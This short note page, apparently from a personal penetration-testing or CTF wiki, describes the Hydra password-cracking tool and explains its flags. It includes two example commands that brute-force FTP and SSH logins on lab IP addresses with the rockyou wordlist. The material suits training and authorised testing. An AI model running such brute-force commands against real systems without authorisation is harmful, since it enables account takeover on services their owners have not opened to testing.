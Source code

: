 = a fast online password cracking tool for [NetworkServices](networkservices) like telnet, rdp, ssh, ftp, http, smb ...

Example:

```
hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp

hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.38.193 ssh
```

-   -t 4 = parallel Connections to target
-   -l \[user] = useraccount name
-   -P \[ordnerpfad PWListe] = path to Directory with passwordlist
-   -vV = verbose mode (shows login+password for each try)
-   ftp = protocol
